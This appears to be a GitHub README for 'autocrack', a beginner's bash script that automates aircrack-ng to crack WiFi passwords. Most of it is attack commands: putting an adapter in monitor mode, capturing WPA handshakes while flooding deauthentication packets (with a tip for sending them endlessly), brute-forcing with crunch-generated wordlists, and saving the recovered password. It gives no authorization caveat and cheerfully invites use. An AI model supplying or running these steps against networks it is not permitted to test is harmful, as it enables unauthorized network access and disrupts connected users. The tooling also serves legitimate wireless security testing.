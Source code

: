 # autocrack
Make aircrack-ng 1.6 works under bash (absolute beginner's script).

YOU ARE FREE TO DOWNLOAD AND EDIT THIS CODE!


prerequisite:
- linux os (debian was used)
- wifi adapter or a laptop with adapter that support monitor mode


make the script run:
- copy the autocrack.sh into a new directory
- open terminal and change the mode to executable (chmod +x autocrack.sh)
- run (sudo ./autocrack.sh)
- password will output in (password.txt)
- and do your thing!


some commands:
- put on monitor mode (airmon-ng start $int)
- use to capture all access point (airodump-ng -w mytable --output-format csv --write-interval 1 $mon_int)
- use to capture handshake and send deauthentication packet'replace 25 with 0 to send infinit deauthentication packet (airodump-ng --bssid "$bssid" -c "$ch" -w "$essid" "$mon_int" & aireplay-ng --deauth 25 -a "$bssid" "$mon_int") 
- make a wordlist and pass it to aircrack-ng to scan for match (crunch $min $max $char|aircrack-ng -b $bssid -w- $cap_file -l password.txt)
- if already have wordlist (aircrack-ng -b $bssid -w $wordlist $cap_file -l password.txt)



and as usual ENJOY!
